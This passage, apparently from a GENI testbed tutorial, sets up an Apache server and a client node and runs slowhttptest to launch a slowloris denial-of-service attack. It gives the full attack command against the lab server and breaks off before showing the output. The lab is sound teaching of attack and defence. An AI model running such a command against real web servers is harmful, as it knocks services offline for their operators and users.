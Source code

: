 ## Run my experiment

In the GENI Portal, create a new slice, and load the [RSpec](https://gist.github.com/ffund/b9b69d4a118d009761a7aca664f0324a) from the following URL: [https://git.io/v9ftJ](https://git.io/v9ftJ)

This will load a topology with two nodes connected by a link, like this:

![](/blog/content/images/2016/03/slowloris.png)

Click on "Site 1" and choose an InstaGENI aggregate, then reserve these resources.

When your nodes are ready to log in, SSH into the server node and run 

```
sudo apt-get update
sudo apt-get -y install lynx-cur apache2
```

to install the Apache web server (and Lynx, a text-based web browser for use in terminal sessions). Verify that the web server is running by connecting to it from a browser; run

```
lynx http://server
```

on the server node and you should see the Apache2 Ubuntu Default Page.


In a second terminal, SSH into the client node and run

```
sudo apt-get update
sudo apt-get -y install slowhttptest
```

to install the [slowhttptest](https://github.com/shekyan/slowhttptest/wiki) tool. This tool implements several Layer 7 DoS attacks, including slowloris.

Then, on the client, run

```
slowhttptest -c 1000 -H -g -o apache_no_mitigation -i 10 -r 200 -t GET -u http://server -x 24 -p 3 -l 120
```

In the terminal output, you will see the test parameters, e.g.
